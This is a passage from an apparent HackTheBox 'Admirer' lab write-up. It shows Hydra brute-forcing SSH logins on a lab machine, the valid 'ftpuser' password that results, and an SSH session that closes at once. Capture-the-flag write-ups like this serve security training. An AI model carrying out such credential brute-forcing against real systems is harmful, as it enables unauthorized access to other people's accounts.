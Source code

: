 ```
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-22 19:11:52
```

It seems the `ftpuser` also has SSH access.

Though, access is immediately closed upon connection.

```
kali@kali:~/Desktop/HackTheBox/admirer$ ssh ftpuser@10.10.10.187
ftpuser@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Connection to 10.10.10.187 closed.
```


